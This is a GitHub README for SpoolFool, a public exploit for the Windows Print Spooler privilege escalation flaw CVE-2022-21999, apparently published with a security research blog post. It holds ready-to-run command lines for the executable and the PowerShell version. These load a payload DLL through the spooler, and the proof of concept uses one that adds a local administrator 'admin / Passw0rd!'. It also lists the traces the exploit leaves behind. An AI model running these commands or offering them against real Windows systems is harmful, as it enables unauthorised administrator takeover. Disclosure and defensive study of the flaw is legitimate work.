

# SpoolFool

Exploit for CVE-2022-21999 - Windows Print Spooler Elevation of Privilege Vulnerability (LPE)

## Details

The provided exploit should work by default on all Windows desktop versions.

Please see the blog post for full technical details [here](https://research.ifcr.dk/spoolfool-windows-print-spooler-privilege-escalation-cve-2022-22718-bf7752b68d81).

## Usage

```powershell
PS C:\SpoolFool> .\SpoolFool.exe

SpoolFool
  By Oliver Lyak (@ly4k_)

Examples:
  C:\SpoolFool\SpoolFool.exe -dll add_user.dll
  C:\SpoolFool\SpoolFool.exe -dll add_user.dll -printer 'My Printer'
  C:\SpoolFool\SpoolFool.exe -dll add_user.dll -dir 'SECRET'
  C:\SpoolFool\SpoolFool.exe -dll add_user.dll -printer 'My Printer' -dir 'SECRET'
```

### Powershell

```powershell
PS C:\SpoolFool> ipmo .\SpoolFool.ps1
PS C:\SpoolFool> Invoke-SpoolFool

SpoolFool
  By Oliver Lyak (@ly4k_)

Examples:
   -dll add_user.dll
   -dll add_user.dll -printer 'My Printer'
   -dll add_user.dll -dir 'SECRET'
   -dll add_user.dll -printer 'My Printer' -dir 'SECRET'
```

## Proof of Concept

The following PoC uses a DLL that creates a new local administrator `admin / Passw0rd!`. The DLL (`AddUser.dll`) and the source code can be found in this repository.



**Second run**

The following PoC demonstrates a second run of the provided exploit. Notice that the vulnerability is not exploited this time in order to load the DLL. 


## Artifacts

After the exploit has been executed, the following artifacts will be left for later cleanup:
- The created printer driver directory is not removed
- The payload DLL is copied to the printer driver directory and it is not removed
- Any created printer is not removed
- The `SpoolDirectory` value of the targeted printer is not restored

## Authors
- Oliver Lyak [@ly4k_](https://twitter.com/ly4k_)

## References
- [SpoolFool: Windows Print Spooler Privilege Escalation (CVE-2022-21999)](https://research.ifcr.dk/spoolfool-windows-print-spooler-privilege-escalation-cve-2022-22718-bf7752b68d81)